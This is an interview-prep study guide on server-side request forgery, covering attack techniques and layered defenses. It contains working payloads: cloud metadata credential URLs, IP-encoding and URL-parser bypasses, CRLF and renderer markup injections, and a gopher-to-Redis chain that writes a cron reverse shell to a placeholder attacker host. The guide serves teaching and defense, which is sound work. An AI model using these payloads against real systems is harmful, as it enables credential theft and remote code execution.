

# Server-Side Request Forgery (SSRF)

> SSRF makes the server issue a request to a location the attacker chooses. The server lives inside the trust boundary, so it can reach loopback, RFC1918 internal services, and the cloud metadata endpoint that the attacker's own machine cannot. The root cause is that user input becomes part of a URL (or host, or a URL embedded in a data format) that the server then fetches, with no egress restriction and no reliable agreement between the code that validates the URL and the HTTP client that dereferences it. Two structural facts drive almost every exploit: (1) internal services frequently trust "requests from localhost" and skip authentication, and (2) the validator and the fetcher parse URLs and resolve DNS at different times and by different rules, so anything you prove safe at check-time can differ at use-time. The prize is usually cloud credentials or an unauthenticated internal admin/data plane.

**Interview frequency:** Core

## How it works

Any feature that fetches a resource on the user's behalf is a candidate: webhooks, link unfurling / URL preview, "import from URL," PDF and HTML-to-image renderers, image proxies and thumbnailers, SSO/SAML metadata fetch, open-graph scrapers, XML parsers (XXE to SSRF), and analytics that follow the `Referer` header. The user-controlled part may be a full URL, just a hostname or path fragment spliced into a URL server-side, or a URL buried inside XML/JSON/SVG.

A normal flow looks like this (PortSwigger's stock-check example)<sup>[[1]](#ref1)</sup>:

```
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded

stockApi=http://stock.weliketoshop.net:8080/product/stock/check?productId=6&storeId=1
```

Swap the value for an internal target and the server fetches it for you:

```
stockApi=http://localhost/admin
stockApi=http://192.168.0.68/admin
```

WHY the `/admin` case works even though you cannot reach `/admin` directly: the access-control check often lives in a front proxy, or the app grants passwordless admin to "local" callers for disaster recovery, or admin listens on a separate port only reachable from the box. When the request originates from the server itself, those trust assumptions hand you the panel.



The dangerous SSRF targets, in order of usual payoff:

```
# AWS EC2 metadata (link-local, no auth on IMDSv1):
http://169.254.169.254/latest/meta-data/iam/security-credentials/<role-name>
# -> {"AccessKeyId":"ASIA...","SecretAccessKey":"...","Token":"..."}  = cloud creds

# GCP metadata (REQUIRES a header, so header control matters):
http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
#   header:  Metadata-Flavor: Google

# Azure IMDS (also header-gated):
http://169.254.169.254/metadata/instance?api-version=2021-02-01
#   header:  Metadata: true

# Internal planes commonly reachable and often unauthenticated:
#   Redis 6379, Memcached 11211, Elasticsearch 9200, Kubernetes API 6443/10250,
#   Docker socket, Spring Boot actuator /env /heapdump, database ports.
```

Non-HTTP schemes widen the blast radius when the client library honors them:

```
file:///etc/passwd                 # local file read
gopher://127.0.0.1:6379/_...       # craft arbitrary TCP bytes (Redis, SMTP, HTTP)
dict://127.0.0.1:6379/CONFIG GET dir   # send one line to a line-based service
```

## Quick reference

```
# Cloud metadata credential theft: swap a legitimate fetch target for the link-local metadata IP
stockApi=http://169.254.169.254/latest/meta-data/iam/security-credentials/<role-name>
# No auth required on IMDSv1; the response is short-lived IAM keys the server fetches on your behalf,
# handing you the account's cloud credentials from an endpoint your own machine could never reach.
```

| Invariant | Where enforced | How violated | Source |
|---|---|---|---|
| Only an explicit, finite allowlist of destination hosts/IPs/ports/schemes is permitted; nothing is denylisted into safety | Server-side allowlist validation before any fetch | Denylist bypass via alternate IP encodings (decimal, hex, octal, IPv6) that a regex misses but the socket layer still resolves | <sup>[[4]](#ref4)</sup> |
| The IP that was validated is the exact IP that gets connected to, with no second name resolution between check and use | Resolve-then-pin in the HTTP client | DNS rebinding: the validation lookup returns a public IP, the connect a moment later resolves the same name to an internal one | <sup>[[1]](#ref1)</sup> |
| Outbound HTTP clients reject CR/LF and control characters in the request target, not just filtered URL schemes | HTTP client library / URL validator | CRLF injection over plain `http://` smuggles raw protocol commands to a line-based service once `gopher://` is blocked | <sup>[[7]](#ref7)</sup> |
| Every redirect hop is re-validated against the same allowlist/pin, never trusted because the original URL passed | HTTP client redirect handling / re-validation loop | Redirect-to-internal: an allowed host 302s to an internal target and the client follows without re-checking | <sup>[[5]](#ref5)</sup> |
| Cloud metadata credential retrieval requires a session token a plain SSRF GET cannot mint | IMDSv2 token flow (`PUT` for token, `GET` must carry it) / GCP-Azure header gating | IMDSv1 answers a plain unauthenticated GET with live IAM credentials | <sup>[[2]](#ref2)</sup> |
| A renderer converting attacker-supplied markup to PDF/PNG treats its own subresource fetches as SSRF sinks, not trusted document content | Markup stripping plus disabled local-file-access at the renderer, network egress restriction | `<iframe>`/`<object>`/SVG `xlink:href` pull metadata or internal responses into the rendered artifact | <sup>[[8]](#ref8)</sup> |

## Attack techniques

### 1. Cloud metadata credential theft

The marquee win. On EC2 with IMDSv1<sup>[[2]](#ref2)</sup>, a single GET to `169.254.169.254/latest/meta-data/iam/security-credentials/<role>` returns short-lived IAM keys; those keys, used against the AWS API, are frequently instant lateral movement or privilege escalation across the account. GCP and Azure require a request header (`Metadata-Flavor: Google`, `Metadata: true`), so the exploit needs the SSRF primitive to control a header or use a vector (like a full request smuggle or a fetcher that copies attacker headers) that supplies it. Confirmation: the credential JSON in the response, or, blind, an OOB egress you cause the fetched creds to be sent to.

### 2. Internal service reach and port scanning

Point the fetch at `127.0.0.1`, `localhost`, or private ranges to hit admin panels, actuators, and datastores. Differential responses and timing (connection refused vs. hang vs. HTTP 200) map open ports and live hosts even when the body is not reflected.

### 3. gopher:// protocol smuggling to unauthenticated Redis RCE

The canonical blind-SSRF-to-RCE. `gopher://` lets you write raw bytes to a TCP port, so you speak Redis's inline protocol and rewrite where Redis persists its RDB, turning a cache into a cron/webshell writer:

```
# Conceptual command sequence sent to Redis on 6379:
flushall
set x "\n\n*/1 * * * * bash -i >& /dev/tcp/attacker/4444 0>&1\n\n"
config set dir /var/spool/cron/
config set dbfilename root
save
# As a gopher payload (CRLF -> %0d%0a, first char after _ is discarded):
gopher://127.0.0.1:6379/_%2A1%0d%0a%248%0d%0aflushall%0d%0a%2A3%0d%0a...SAVE%0d%0a
```

WHY it works: Redis by default binds to all interfaces with no auth in many deployments, accepts inline commands, and `CONFIG SET dir` + `dbfilename` + `SAVE` lets you write attacker content to an arbitrary path (crontab, `authorized_keys`, a webroot PHP file). `dict://` achieves single-command variants (`dict://host:6379/CONFIG GET dir`). Detection: OOB reverse shell / DNS callback from the written job.

### 4. Blind SSRF via OOB and timing

When the response is not returned, the reliable detector is out-of-band (OAST): point the fetch at a Burp Collaborator or your own DNS/HTTP listener and watch for the interaction. A subtle but exam-worthy point from PortSwigger<sup>[[3]](#ref3)</sup>: it is common to see only a DNS lookup and no follow-up HTTP hit, because infrastructure often allows outbound DNS but blocks outbound HTTP to unexpected destinations; the DNS callback alone still proves SSRF. Timing differentials (open vs. filtered internal ports) give a body-less oracle. Blind SSRF is still high-impact: sweep internal IP space with OOB-carrying payloads to trip known unauthenticated bugs, and hit metadata/Redis where no response is needed.

### 5. Second-order / stored SSRF

The URL is saved and fetched later by a backend worker (thumbnail job, report renderer, webhook dispatcher). You never see the response, but the backend still reaches internal services. Also: SSRF via the `Referer` header, because server-side analytics often visit URLs seen in `Referer`.

### 6. Denylist bypass with alternate IP encodings

Defenders that block the literal strings `127.0.0.1` / `169.254.169.254` lose to encodings the HTTP client still resolves to the same address:

```
# All resolve to 127.0.0.1:
http://2130706433/          # decimal
http://0x7f000001/          # hex
http://0x7f.0x0.0x0.0x1/    # dotted hex
http://0177.0.0.1/          # octal
http://017700000001/        # full octal
http://127.1/               # shorthand (missing octets)
http://[::1]/               # IPv6 loopback
http://[::ffff:127.0.0.1]/  # IPv4-mapped IPv6
# 169.254.169.254 as decimal:
http://2852039166/
```

WHY: the validator does a string/regex check while the socket layer (glibc `getaddrinfo`, the language's IP parser) accepts many numeric forms. The OWASP cheat sheet notes some parsers are exposed to hex/octal/dword/mixed encoding bypasses and some are not<sup>[[4]](#ref4)</sup>, which is exactly the validator-vs-fetcher gap.

### 7. DNS-based bypass and rebinding (TOCTOU)

Register a name you control that resolves to an internal IP, or that resolves differently across two lookups:

```
# Name that simply points at loopback / metadata:
http://spoofed.attacker.tld/        # A record -> 127.0.0.1 (or 169.254.169.254)

# DNS rebinding: attacker DNS answers with a very low TTL.
#   Lookup #1 (validation)  -> 203.0.113.10  (public, passes the allowlist/denylist)
#   Lookup #2 (the fetch)   -> 127.0.0.1     (internal)
```

WHY rebinding wins: validate-then-fetch designs resolve the name once to check it, then the HTTP client resolves it again a moment later to connect. Time-of-check differs from time-of-use, and the attacker's authoritative server returns a different answer the second time. This defeats any design that trusts the first resolution.

### 8. Redirect-to-internal

Submit a URL on an allowed host that responds `3xx` to an internal target. If the client follows redirects, the validator's check on the original URL is irrelevant. PortSwigger notes that even switching scheme across the redirect (http to https) has bypassed some filters.<sup>[[5]](#ref5)</sup> Open redirectors on the trusted domain are the classic enabler:

```
stockApi=http://weliketoshop.net/product/nextProduct?path=http://192.168.0.68/admin
# validator sees the allowed host; the app 302s to the internal URL; client follows.
```

### 9. URL parser confusion (Orange Tsai, "A New Era of SSRF," Black Hat USA 2017)

The validator and the fetcher disagree about which token is the host.<sup>[[6]](#ref6)</sup> These are the highest-signal senior payloads:

```
http://expected-host@169.254.169.254/          # userinfo: '@' before the real host
http://169.254.169.254#@expected-host/          # '#' starts a fragment; real host is the IP
http://expected-host#@169.254.169.254/           # inverse, depending on parser
http://169.254.169.254\@expected-host/           # backslash treated as '/' by some, not others
http://foo@evil:80@expected-host/                # double '@' ambiguity
http://expected-host.attacker.tld/               # allowlist substring / suffix confusion
```

WHY: RFC-3986 components (userinfo `user@`, fragment `#`, and non-standard handling of `\`, whitespace, and URL-encoding) are parsed inconsistently across Python `urllib`, Ruby, PHP, Java `URL`, Node, curl, and browsers. Tsai's work demonstrated concrete divergences between these parsers in trending languages; the split lets you present a benign host to the regex and a malicious host to the socket. Also try URL-encoding and double-encoding the dots/slashes when the validator decodes once (or not at all) but the fetcher decodes again.

### 10. Allowlist string-match weaknesses

If the check is "does the input contain `expected.com`," then `expected.com.attacker.tld` and `attacker.tld/expected.com` pass. Anchor and fully parse, or the allowlist is decorative.

### 11. CRLF injection in the URL to smuggle raw commands over plain http://

Some HTTP clients do not sanitize newlines in the URL (older curl, PHP streams, historical Java, Python `urllib` before the CVE-2016-5699 fix<sup>[[7]](#ref7)</sup>), so a payload like `http://127.0.0.1:6379/%0d%0aCONFIG%20SET%20dir%20/var/spool/cron/%0d%0a%0d%0a` decodes the percent-encoded CR/LF and splices them into the request line the client writes to the socket. A line-based server (Redis, Memcached, SMTP) treats the injected lines as its own protocol commands and executes them.

This matters because defenders commonly block `gopher://` and `dict://` at the URL layer and forget that ordinary `http://` becomes an arbitrary-bytes-to-a-TCP-port primitive when the client concatenates a user-supplied path into the request line without stripping control characters. The interview question is "gopher is filtered, can you still hit Redis?" and the answer is yes: reach the same Redis inline-protocol chain (crontab write, `authorized_keys` write, webshell) with only `http://` if the client is one of the historical CRLF-permissive parsers.

The fix is not more scheme filtering. Reject URLs that contain control characters after full decoding, and use a modern HTTP client that refuses CR/LF in the request target (Python 3.6.5+, current libcurl, current OpenJDK). Any client that ships a CRLF-in-URL check as a CVE-tagged fix should be treated as authoritative on the class.

### 12. Renderer SSRF via attacker-controlled markup

When the server converts attacker-supplied HTML, SVG, or Markdown to PDF or PNG (wkhtmltopdf, headless Chrome, Puppeteer, WeasyPrint, ImageMagick with the SVG delegate), the attacker controls the DOM the renderer loads, so every subresource the renderer fetches is an SSRF sink whose response is baked into the output artifact:

```
<iframe src="http://169.254.169.254/latest/meta-data/iam/security-credentials/role">

<link rel="stylesheet" href="http://internal-admin/">
<image xlink:href="http://internal/secret" />   <!-- SVG -->
<object data="http://redis:6379/">
```

The credential JSON or file bytes appear inside the rendered PDF or PNG, so a "headless" export gives you a reflected read on a pipeline the requester never touches directly. Even flows that do not return the artifact to the submitter still leak through side channels: shared thumbnails, admin previews, downloadable reports.

Defense on this surface is markup-aware, not URL-aware. Strip `<iframe>`, `<object>`, `<link>`, `<script>`, and SVG external references before rendering; run the renderer with `file://` disabled (wkhtmltopdf `--disable-local-file-access`<sup>[[8]](#ref8)</sup>, Chrome without `--allow-file-access-from-files`, ImageMagick with the SVG delegate disabled or policy'd off); and put the renderer on an egress-restricted network segment that cannot reach metadata IPs or internal admin planes. Treat the renderer's outbound traffic as an SSRF sink and route it through the same forward-proxy allowlist as any other fetcher. This is a routine senior probe: "your product exports user-submitted content to PDF, walk me through the SSRF surface."

## Defense

### Real fix

1. Allowlist destinations, do not denylist. Where the feature talks to a known, finite set of hosts (OWASP Case 1), permit only those exact hosts/IPs/ports/schemes. Validate the input first with a battle-tested library (Java `InetAddressValidator`/`DomainValidator` from Apache Commons Validator, .NET `IPAddress.TryParse`/`Uri.CheckHostName`, JS `ip-address`, Python `validators.domain`, Ruby `IPAddr`), then string-compare the parsed value against the allowlist. Do not accept full URLs from users; accept a validated IP or domain and build the URL server-side. The OWASP cheat sheet flags which stdlib parsers are themselves bypassable by hex/octal/dword/mixed encodings, so choosing a non-bypassable validator matters.<sup>[[4]](#ref4)</sup>

2. Resolve-then-pin (kills DNS rebinding). Resolve the hostname once, validate the resulting IP against the internal deny ranges, then connect to that exact IP (set it as the connection target / pin it), so there is no second attacker-controlled resolution between check and use. Re-run the full validation on every redirect hop. Pinning the IP for one `connect()` is necessary but not sufficient. If the HTTP client still sends `Host: attacker.tld` after connecting to the pinned IP, a virtual-hosted internal service or a reverse proxy may route by Host and reach an unintended backend, so rewrite the outgoing Host header to match the validated hostname or reject virtual-host mismatches. HTTP keep-alive and connection pooling can also skip a fresh `getaddrinfo` on the next logical request, which is fine when you pinned an IP but breaks if the validation layer assumed a second lookup would run. On redirect, treat the new hop as a new fetch: resolve, re-validate `is_global`, re-pin, and do not reuse the prior socket or prior resolution. The clean invariant is that for every hop the pipeline resolves once, validates the IP, connects to that exact IP, and sets the outgoing Host header to the validated hostname; the socket layer never resolves a name a second time inside a single logical fetch. Common wrong implementation: pinning the IP but leaving the Host header attacker-controlled, or letting a keep-alive pool serve a second logical request without re-running validation.

3. Deny the internal ranges completely when an allowlist is impossible (OWASP Case 2, arbitrary webhooks). Block, for both IPv4 and IPv6 and after resolution, using an is-global / not-special check rather than hand-rolled regex:

```
127.0.0.0/8   0.0.0.0/8   ::1/128            # loopback
10.0.0.0/8    172.16.0.0/12   192.168.0.0/16  # RFC1918
169.254.0.0/16 (incl. 169.254.169.254)  fe80::/10   # link-local + metadata
100.64.0.0/10 # CGNAT       224.0.0.0/4  ff00::/8   # multicast
metadata.google.internal   metadata.amazonaws.com
```

Python's `ipaddress.ip_address(x).is_global` is a clean primitive; the OWASP cheat sheet ships a resolver that rejects any A/AAAA record that is not global.<sup>[[4]](#ref4)</sup>

4. Disable dangerous schemes and redirects. Allow only `http`/`https`; reject `file`, `gopher`, `dict`, `ftp`, `phar`, `data`. Turn off automatic redirect following in the HTTP client (or re-validate each hop against the pinned-IP rule). Disabling redirects is called out explicitly by OWASP because it neutralizes the open-redirect and rebinding-via-redirect bypasses.<sup>[[4]](#ref4)</sup>

### Defense in depth

1. Network egress control. Put the fetcher in a segment/VPC with no route to internal management planes or the metadata IP; force outbound through an authenticated forward proxy that enforces the allowlist. Network segregation blocks the illegitimate call at layer 3 regardless of any parser bug in the app; it contains what a successful SSRF can reach rather than preventing the app from being tricked into issuing the request in the first place.

2. Protect cloud metadata: enforce IMDSv2.<sup>[[2]](#ref2)</sup> IMDSv2 makes credential retrieval a session flow: a `PUT /latest/api/token` (with the `X-aws-ec2-metadata-token-ttl-seconds` header) returns a token, and every `GET` must carry `X-aws-ec2-metadata-token`. A plain GET-only SSRF cannot mint the token, and the default response hop limit of 1 drops metadata replies that would traverse a proxy/container NAT. Set the instance to `HttpTokens=required`, keep the hop limit low, and scope the instance role to least privilege so stolen creds are weak. GCP/Azure header requirements provide analogous friction; do not weaken them.

3. Do not reflect raw responses, and constrain them. Returning the fetched body to the user leaks internal data; if you must, cap size, content type, and timeout, and strip/normalize outbound headers so a header-injection variant cannot add `Metadata: true` or `Metadata-Flavor: Google`.

Reference: OWASP SSRF Prevention Cheat Sheet<sup>[[4]](#ref4)</sup> (Case 1 allowlist / Case 2 denylist split, IMDSv2, resolver monitoring script) and OWASP ASVS controls on outbound request validation.

## Interviewer probes

Mid: "We block requests to 127.0.0.1 and 169.254.169.254, doesn't that close off SSRF to internal targets?"

Principal: That's the junior answer, and denylists like that die immediately to decimal, octal, hex, and IPv6 encodings of the same address, to DNS names that simply resolve inward, to redirects, and to parser confusion between the validator and the fetcher. The correct posture is allowlisting exact destinations, or when that's impossible, resolve-then-pin plus a proper is-global deny check, not a regex against known-bad literal strings.

Mid: "We validate the URL before fetching it, so we should be safe from an attacker pointing us at an internal address, right?"

Principal: Only if you pin the resolved IP and re-validate on every redirect hop. Otherwise DNS rebinding is a straightforward bypass: the attacker's DNS answers with a public IP on the validation lookup and an internal IP on the connect a moment later, since validate-then-fetch designs do two separate resolutions with an attacker-controlled name in between. A 3xx response to an internal target walks through the same gap if the client follows redirects. Naming that TOCTOU explicitly is what separates a real answer from a plausible-sounding one.

Mid: "We found a blind SSRF where we can't see the response body. Is that lower severity than one where we can?"

Principal: No. Blind SSRF still steals IAM credentials and drives the gopher-to-Redis RCE chain; you just confirm it with OOB or timing instead of a reflected body. It's also worth knowing that a DNS-only callback with no follow-up HTTP hit is the expected signal when egress HTTP is filtered but DNS still resolves, so don't conclude "not vulnerable" just because only a DNS lookup arrives.

Mid: "What's the actual difference between IMDSv1 and IMDSv2, and why does it matter for SSRF?"

Principal: IMDSv2 turns credential retrieval into a session flow: a `PUT` to `/latest/api/token` returns a token, and every subsequent `GET` must carry that token in a custom header, with a default response hop limit of 1. A plain GET-only SSRF primitive can't mint the token, so it can't read v2 credentials, full stop. That's also why header-gated clouds like GCP and Azure make "can the SSRF primitive set a request header" a real exploitability question rather than a formality; on AWS IMDSv1 no header is needed at all, which is why it's the softer target. The fix is migrating and setting `HttpTokens=required`, not a WAF rule keyed on the metadata IP.

Mid: "Gopher is blocked at the edge. Can you still get to Redis?"

Principal: If the HTTP client is one of the historical CRLF-permissive parsers (older curl, PHP streams, pre-CVE-2016-5699 Python `urllib`), yes: a plain `http://target/%0d%0aCONFIG%20SET%20dir%20/var/spool/cron/%0d%0a...` decodes the percent-encoded CR/LF and splices raw newlines into the request line, driving the same Redis inline-protocol chain over `http://` with no exotic scheme required. The fix is a client that rejects CR/LF in the request target, plus a validator that rejects control characters after full decoding, not more scheme filtering.

Mid: "Your product exports user-submitted HTML or SVG content to PDF. Walk me through the SSRF surface there."

Principal: The renderer's DOM is the sink, not the submitted document's URL fields. `<iframe>`, `<object>`, `<link rel=stylesheet>`, ``, and SVG `<image xlink:href>` all trigger server-side fetches whose responses get baked directly into the output PDF or PNG, so a headless rendering pipeline gives you a reflected read even when the export flow never returns anything to the submitter directly. The fix has to work at three layers: strip external subresource tags at the markup layer, disable `file://` and local file access at the renderer flag layer, and put the renderer on a network segment that can't reach metadata or internal admin planes. Filtering URLs in the submitted document alone is not sufficient, because the attacker controls the entire DOM the renderer loads.

Mid: "We pin the resolved IP to defeat DNS rebinding. Does that fully close the gap?"

Principal: Pinning one `connect()` is necessary but not sufficient. If the outgoing `Host` header still names the attacker's hostname, a virtual-hosted internal backend or reverse proxy can still route by `Host` and reach an unintended target even though the socket connected to the pinned IP. A keep-alive connection pool can also reuse a socket for a second logical request without a fresh `getaddrinfo`, silently skipping validation the design assumed would re-run. And on redirect, the new hop needs its own resolve-validate-pin cycle rather than reusing any state from the first. The actual invariant is one resolve, one is-global validation, one connect, one rewritten Host header, per hop, every hop.

## Sources

<a id="ref1"></a>[1] PortSwigger Web Security Academy, "Server-side request forgery (SSRF)". Retrieved 2026. https://portswigger.net/web-security/ssrf

<a id="ref2"></a>[2] AWS, "Configure the instance metadata service" (IMDSv1 vs IMDSv2, tokens, hop limit). Retrieved 2026. https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/configuring-instance-metadata-service.html

<a id="ref3"></a>[3] PortSwigger Web Security Academy, "Blind SSRF vulnerabilities". Retrieved 2026. https://portswigger.net/web-security/ssrf/blind

<a id="ref4"></a>[4] OWASP, "Server-Side Request Forgery Prevention Cheat Sheet". Retrieved 2026. https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html

<a id="ref5"></a>[5] PortSwigger, "SSRF URL validation bypass cheat sheet" (SSRF/CORS/redirect payloads). Retrieved 2026. https://portswigger.net/web-security/ssrf/url-validation-bypass-cheat-sheet

<a id="ref6"></a>[6] Orange Tsai, "A New Era of SSRF: Exploiting URL Parsers in Trending Programming Languages". Black Hat USA. 2017. https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf

<a id="ref7"></a>[7] Python, CVE-2016-5699 (CRLF injection in `urllib` HTTP request URLs). NVD. Retrieved 2026. https://nvd.nist.gov/vuln/detail/CVE-2016-5699

<a id="ref8"></a>[8] wkhtmltopdf, usage and security options (`--disable-local-file-access` and restricted-access flags). Retrieved 2026. https://wkhtmltopdf.org/usage/wkhtmltopdf.txt
